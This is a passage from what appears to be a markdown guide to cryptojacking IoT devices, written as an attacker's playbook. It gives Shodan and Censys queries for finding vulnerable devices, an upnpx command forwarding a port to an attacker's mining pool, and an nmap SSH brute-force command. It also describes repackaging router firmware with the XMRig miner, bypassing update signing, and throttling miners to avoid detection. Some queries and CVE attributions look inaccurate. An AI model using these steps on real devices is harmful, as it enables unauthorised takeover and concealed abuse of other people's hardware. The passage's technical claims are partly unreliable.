 #### **3. Exploitation Frameworks: Shodan and Censys**  
Tools like **Shodan** and **Censys** automate the discovery of vulnerable IoT devices:  

| **Framework** | **Search Strategy**                                                                 | **Example Query**                                                                 |  
|---------------|-------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------|  
| **Shodan**    | Target default credentials, exposed services, or outdated firmware.                  | `product:"IP Camera" port:80 "admin:admin"` or `vuln:CVE-2021-20091`                     |  
| **Censys**    | Filter by device type, firmware version, or misconfigured protocols (e.g., UPnP).    | `protocols: ["http", "ssh"] AND firmware:outdated` or `cpe:2.3:*:zyxel:*:*:*:*:*:*:*:*` |  

Attackers use these frameworks to **prioritize targets** with unpatched firmware or exposed services, reducing manual effort.  

---

#### **4. Backdoor Entry Points**  
- **UPnP Misconfigurations**:  
  Devices often leave UPnP enabled, allowing attackers to map ports to their infrastructure. For example:  
  - Use `upnpx` to forward port `3333` to a mining pool server:  
    ```bash
    upnpx -a <attacker_IP> -e "Mining Service" 3333:3333:TCP
    ```  
  - Exploit **CVE-2020-10992** to execute RCE via UPnP’s SSDP protocol.  

- **Telnet/SSH Brute-Forcing**:  
  Devices with weak authentication (e.g., `root:root` on Netgear routers) are targeted using tools like **Nmap**:  
  ```bash
  nmap -p 22 --script ssh-brute <target_IP>
  ```  

---

#### **5. Firmware Update Exploits**  
Many IoT devices lack **secure firmware update protocols**, enabling attackers to:  
- **Deploy Modified Firmware**:  
  Repackage firmware with embedded mining payloads using tools like **Binwalk**. For example, insert a lightweight miner like **XMRig** into a router’s firmware image.  
- **Bypass Signing**:  
  Exploit vulnerabilities like **CVE-2021-31323** (Nest Thermostat) to disable signature checks during updates.  

---

#### **6. Stealth Considerations**  
Exploits are designed to avoid disrupting device functionality:  
- **Low-Impact Exploitation**:  
  Use **RCE vulnerabilities** to deploy mining scripts as background processes (e.g., `nice -n 19 xmrig`).  
- **Resource Throttling**:  
  Limit CPU usage to <10% to prevent overheating or performance degradation.  

---
